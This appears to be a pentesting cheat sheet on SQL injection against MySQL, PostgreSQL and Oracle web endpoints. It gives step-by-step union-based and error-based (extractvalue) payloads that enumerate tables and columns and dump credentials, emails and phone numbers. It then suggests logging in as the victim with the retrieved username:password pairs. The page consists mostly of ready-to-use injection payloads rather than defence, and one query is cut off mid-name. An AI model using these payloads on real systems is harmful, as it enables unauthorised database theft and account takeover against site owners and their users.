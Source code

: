 # SQLI

The leading cause of SQL injection is string concatenation.

This vulnerability can be exploited to dump the contents of an application database.

#### The two most common types of SQL injection are union-based and error-based.

1. **Union-based SQL injection:** uses the “UNION” SQL operator to combine the results of two or more “SELECT” statements into a single result.
2. **Error-based SQL injection:** utilizes the errors the SQL server throws to extract information.

## <mark style="color:yellow;">MySql</mark>

Automation: using[ SqlMap](https://github.com/sqlmapproject/sqlmap).

{% tabs %}
{% tab title="¯\_(ツ)_/¯" %}
Swap tabs
{% endtab %}

{% tab title="Union Based" %}


Once you know that an endpoint is vulnerable to SQL injection the next step is to exploit it:

* Figure out how many columns the endpoint contains using the “order by” operator and keep adding one to the number until you get an error:

&#x20;     \--> Order by 1 --> Order by 2 --> Order by n --> error (indicates there must be n-1 columns).

* Figure out which columns are being displayed on the page using the “union all select” statement which can be accomplished by putting an invalid value:

&#x20;    \--> Notice the numbers on the page refer to the columns displayed on the front end.

* Display the database version using mysql commands:

&#x20;     \--> @@version /  version()

&#x20;     \--> 💡Note the version down to help later

* get a list of database tables:

```sql
union all select 1,2,group_concat(table_name) from information_schema.tables 
where table_schema = database()
```

* Get the table's columns

```sql
union all select 1,2,group_concat(column_name) from information_schema.columns where table_name = "tbName" 
```

* Dump the contents of specific columns:

```sql
union all select 1,2,group_concat(col,":",col) from tbNa
```

In case retrieving username:password for a user, we can use them to log in as that user.
{% endtab %}

{% tab title="Error Based" %}
Useful when there is no output except a SQL error.

**Xpath**

If the MySql service version is 5.1 or later we can use the “ extractvalue() ” function to exfiltrate data from the database.&#x20;

* generates a SQL error when it is unable to parse the XML data passed to it.

#### ExtractValue() function

* used to parse out a value from an XML document&#x20;
* The first argument is an XML document and the second argument is the tag we want to get the value of.&#x20;
* second argument starts with a “;” it will cause a MySql error message to appear along with the string that caused the error.

#### Abusing ExtractValue() function to extract data via error messages:

* extract the MySql database version via an error message:

```sql
AND extractvalue("blahh",concat(";",@@version))
```

* get a list of table names:

```sql

// Note: The “limit 0,1” command is used to get the first row in the table
// and to get the second table you would use “limit 1,1”
AND extractvalue("blahh",(select concat(";",table_name) from information_schema.tables where table_schema = database() limit 0,1)) 
```

* Get a list of columns belonging to a specific table:

```sql
AND extractvalue("blahh",(select concat(";",column_name) from information_schema.columns where table_name = "tbName" limit 0,1))
```

* dump the contents of specific columns:

```sql
AND extractvalue("blahh",(select concat(";",col,":",col) from tbName limit 0,1))
```

In case retrieving username:password for a user, we can use them to log in as that user.
{% endtab %}
{% endtabs %}

## <mark style="color:yellow;">PostgreSQL</mark>

In case an error message is displayed, if you see the “<mark style="color:red;">psycopg2</mark>” name you know you’re working with a Postgres database server.

**Union Based**

* Figure out how many columns the endpoint contains using the “order by” operator and keep adding one to the number until you get an error:

&#x20;     \--> Order by 1 --> Order by 2 --> Order by n --> error (indicates there must be n-1 columns).

* Figure out which columns are being displayed on the page using the “union all select” statement which can be accomplished by putting an invalid value:

&#x20;    \--> Notice the numbers on the page refer to the columns displayed on the front end.

If you weren't able to detect the database type from the error message you could always use the “version()” function to print the database type:&#x20;

&#x20;   \-->-1 union all select 1,version()

* Get a list of all tables in the databases:

<pre class="language-sql"><code class="lang-sql"><strong>// Offset ‘0’ gets the first table name, offset ‘1’ gets the second, and so on.
</strong>// filter out the default databases “pg_catalog” and “information_schema” as they tend to clog up the results. 
union all select 1,table_name from information_schema.tables where table_schema != 'pg_catalog' and table_schema != 'information_schema' offset 0 
</code></pre>

* Get a list of columns belonging to a specific table:

```sql
union all select 1,column_name from information_schema.columns where table_name = 'tbName' offset 0
```

* Dump the contents of specific columns:

```sql
union all select 1,concat(col,':',col) from tbName offset 0
```

In case retrieving username:password for a user, we can use them to log in as that user.

## <mark style="color:yellow;">Oracle</mark>

Requires some additional knowledge to successfully exploit it.

* Similar to PostgreSQL when you are selecting a column it must match the type of the first select statement.&#x20;
* When using the select operator you must specify a default “dual” table.

#### Test&#x20;

* Throw a bunch of single and double quotes around until you get an error message starting with “<mark style="color:red;">**ORA**</mark>” which indicates dealing with an Oracle database.&#x20;

**Union Based**

* Figure out how many columns the endpoint contains using the “order by” operator and keep adding one to the number until you get an error:

&#x20;     \--> Order by 1 --> Order by 2 --> Order by n --> error (indicates there must be n-1 columns).

* Figure out which columns are being displayed on the page using the “union all select” statement which can be accomplished by putting an invalid value:

&#x20;    \--> Notice the numbers on the page refer to the columns displayed on the front end.

* Figure out the target table name:

```sql

//Oracle uses the “all_tables” e to get a list of tables.
// When using the listagg() function you must also use the ‘within group()’ operator to specify the order of the listagg function results.
union all select LISTAGG(table_name,',') within group (ORDER BY table_name),null from all_tables where tablespace_name = 'USERS' --
```

* Get the table's columns:

```sql
union all select LISTAGG(column_name,',') within group (ORDER BY column_name),null from all_tab_columns where table_name = 'EMPLOYEES'-- 
```

* Extract the sensitive information

```sql
Union all select email,phone_number from employees 
```
